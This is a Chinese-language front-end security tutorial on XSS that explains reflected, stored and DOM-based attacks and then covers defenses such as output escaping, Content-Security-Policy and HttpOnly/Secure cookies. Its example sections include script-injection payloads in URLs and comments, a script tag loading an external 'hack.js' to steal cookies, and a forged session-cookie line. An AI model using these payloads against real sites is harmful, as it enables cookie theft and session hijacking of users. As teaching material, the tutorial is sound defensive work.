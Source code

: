 ```yaml
---
title: 安全01 XSS攻击
sidebar: 'auto'
date: 2021-11-06
categories:
- 11前端安全
isShowComments: true
---
```




## 1. 什么是XSS攻击

​	Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行，从而获取用户的敏感信息如 Cookie、SessionID 等

## 2. XSS攻击分类

### 1）反射型

> 攻击流程

1.   黑客构造出包含脚本的URL
2.   用户点击URL时，网站服务器就会将脚本从URL中取出，拼接在HTML中返回给浏览器
3.   用户浏览器接受到响应后解析执行，脚本也被执行
4.   脚本就可以窃取用户的数据，发送给黑客的服务器

![截图](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060819994.png)



> 实例

```js
// 普通
http://localhost:3000/?from=china

// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>

// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js">
</script>

// 短域名伪造 https://dwz.cn/

// 伪造cookie入侵 chrome
document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNT
Y1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```



:::tip

​	Web 服务器不会存储反射型 XSS 攻击的恶意脚本，这是和存储型 XSS 攻击不同的地方。

:::



### 2）存储型

> 攻击流程

1.   黑客通过论坛发帖、商品评论等途径，将脚本提交到目标网站的数据库中
2.   用户打开网站时，网站服务器将脚本从数据库中取出，拼接在HTML中返回给浏览器
3.   用户浏览器接受响应后解析执行，脚本也被执行
4.   脚本就可以窃取用户数据发送给黑客网站

![截图](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060906009.png)

> 攻击实例

```js
// 评论
<script>alert(1)</script>

// 跨站脚本注入
我来了<script src="http://localhost:4000/hack.js"></script>
```



### 3）DOM型

> 攻击流程

​	基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 **Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据**



> DOM型与其他两种XSS的区别

DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

> 实例

​	例如，黑客构造带有恶意代码的 URL 诱导用户打开 http://www.xxx.com/index.html/?content=，浏览器收到请求后解析执行，如果使用 document.write() 、document.outerHTML 、DOM .innerHTML未经转义输出，就可能遭到攻击。

![2图](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060916056.png)



## 3. 防御

### 1）转义

​	从浏览器的执行进行预防：

#### 1. **replace**

```js
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}
```

#### 2. **innerHTML**

```js
function filterStr(str) {
    const div = document.createElement('div')
    div.textContent = str
    return div.innerHTML
}
filterStr('<div></div>') // &lt;div&gt;&lt;/div&gt;
```



### 2）白名单

​	使用CSP， CSP的本质是简历一个白名单，告诉浏览器哪些外部资源可以加载和执行，从而防止恶意代码的注入攻击。

> CSP的功能？

- **限制加载其他域下的资源文件**。这样即使黑客插入了一个js文件，这个js文件也是无法被加载的。
- **禁止第三方域提交数据**。这样用户数据也不会外泄。
- **禁止执行内联脚本和未授权的脚本**。
- **还提供了上报机制**。这样可以帮助我们尽快发现有哪些XSS攻击，以便尽快修复问题。



#### 1. Content-Security-Policy

设置HTTP Header的Content-Security-Policy

![img](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060858557.jpeg)

```js
Content-Security-Policy:
	script-src 'self'; 
	object-src 'none';
	style-src cdn.example.org third-party.org; 
	child-src https:
```



#### 2. meta标签

```js
<meta 
	http-equiv="Content-Security-Policy" 
	content="script-src 'self'; 
	object-src 'none'; 
	style-src cdn.example.org third-party.org; 
	child-src https:
/>
```

上面代码中，CSP做了如下 配置：

-   脚本：只信任当前域名
-   `<object>`标签：不信任任何URL，即不加载任何资源
-   样式表：只信任`cdn.example.org`和`third-party.org`
-   框架（frame）：必须使用HTTPS协议加载
-   其他资源：没有限制



### 3） 防止脚本读取Cookie

#### 1. Cookie HttpOnly

​	如果cookie中设置了HttpOnly属性，那么通过js脚本将无法读取到cookie的信息。

​	通常**服务器**可以将某些 Cookie 设置为 HttpOnly 标志，HttpOnly 是服务器通过 **HTTP 响应头**来设置的。

> 实例

```js
// 设置cookie
response.addHeader("Set-Cookie", "uid=112;Path=/;HttpOnly")

// 设置多个cookie
response.addHeader("Set-Cookie", "uid=112;Path=/;HttpOnly")
response.addHeader("Set-Cookie", "uid=112;Path=/test;HttpOnly")

```

#### 2. Cookie Secure

​	Cookie添加Secure属性，只能https协议才能传输cookie, 防止中间人截取传输的cookie。

​	



> 实例

```js
// 设置https的cookie
response.addHeader("Set-Cookie", "uid=112;Path=/;Secure")
```





## 参考

1.   [前端安全系列（一）：如何防止XSS攻击？](https://juejin.cn/post/6844903685122703367#heading-6)
2.   [浏览器专题系列 - Web安全](https://juejin.cn/post/6926726800793927693)
3.   [Web 安全 - 跨站脚本攻击 XSS 三种类型及防御措施](https://mp.weixin.qq.com/s/7ruF1I94p4Ve3tVDb6096A)
4.   [Content Security Policy 入门教程](http://www.ruanyifeng.com/blog/2016/09/csp.html)





